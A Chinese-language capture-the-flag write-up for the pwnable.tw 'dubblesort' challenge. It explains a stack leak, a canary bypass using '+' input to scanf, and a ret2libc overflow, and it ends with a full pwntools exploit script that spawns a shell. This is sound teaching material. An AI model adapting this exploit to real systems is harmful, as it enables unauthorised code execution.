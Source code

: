 ## 分析

检查可以发现保护全开

这题的逻辑很简单，输入姓名，然后输入数据，程序会对数据进行排序然后输出

## 漏洞点

首先是输入姓名的时候，程序通过read来读取name，回车就截断了，并不会在后面添加\x00，但是printf打印信息是通过\x00截断的，也就是说如果输入后如果后面不是\x00，就会接着输出，产生栈内容泄漏。

然后是在排序的阶段，并没有限制输入数字的数量，所以可以造成栈溢出。

## 利用

可以看到题目中是存在canary的，但是没办法泄漏，那有没有办法能不修改canary同时完成栈溢出呢？

如果我们输入非法字符例如字母，scanf确实无法读取，但是由于题目中输入流并不会清空，所以非法字符一直会一直留在stdin，这样剩下的scanf读入的都是非法字符，不行

另一种方案是输入+或-，因为这两个字符可以定义正负数，如果把输入数字替换成这两个符号，读入只会视为无效而不是非法，canary不会被修改。

经过调试我们可以看到在输入name的第七个栈空间中存放着疑似栈libc地址的内容

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-1.png)

利用vmmap命令进行对照

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-2.png)

可以计算得偏移为 0xf7fb2000 - 0xf7dff000 = 0x1b3000

但是需要注意的是这里我们使用的是本机上的libc文件

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-3.png)

查看文件可得此偏移地址为 .got.plt

与题目给的文件进行对照，发现服务器上的偏移应为0x1b0000

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-4.png)

而同样我们可以在这个libc文件内找到system的偏移及/bin/sh的偏移

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-5.png)

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-6.png)

libc_addr = leak_addr - 0x1b0000

system_addr = libc_addr + 0x3a940

binsh_addr = libc_addr + 0x158e8b

## exp

需要注意的是该栈单元的数据的第一个字节（即.got.plt节地址的最后一个字节，因为小端序）总为0x00，因此若要泄露该数据，需要多发送一个字节覆盖掉0x00，否则printf会将0x00之后的数据截断。可以发送'A'*24+'\n'来泄露出该数据的后三个字节，再加上'\x00'即可。

然后程序中的排序函数会对栈中内容进行修改，我们需要在输入数据时注意数据的大小，以保证canary地址不会改变，我们可以将canary之前的数据都置0，canary和返回地址之间（包括返回地址）的数据都写入system函数的地址，从而保证exp大概率可以执行成功

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-dubblesort-7.png)

最后需要输入的是35个数

24 * '0' + '+' + 9 \* system_addr(调试得知) + binshaddr

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
myelf = ELF("./dubblesort")
#io = process(myelf.path)
#gdb.attach(io,"break main")
io = remote("chall.pwnable.tw",10101)

io.recvuntil(':')
io.sendline('a'*24)
leak_addr = u32(io.recv()[30:34]) - 0xa

libc_addr = leak_addr - 0x1b0000
system_addr = libc_addr + 0x3a940
binsh_addr = libc_addr + 0x158e8b

io.sendline('35')
for i in range(24):
	io.sendline('0')
	io.recv()

io.sendline('+')
io.recv()
for i in range(9):
	io.sendline(str(system_addr))
	io.recv()
io.sendline(str(binsh_addr))
io.recv()
io.interactive()
```

参考

- https://www.anquanke.com/post/id/150359#h2-13

- https://www.freebuf.com/articles/others-articles/134271.html
- http://39.105.67.126/index.php/2019/09/19/pwnable-twdubblesort/
- https://p1kk.github.io/2020/07/09/tw/tw%20dubblesort/
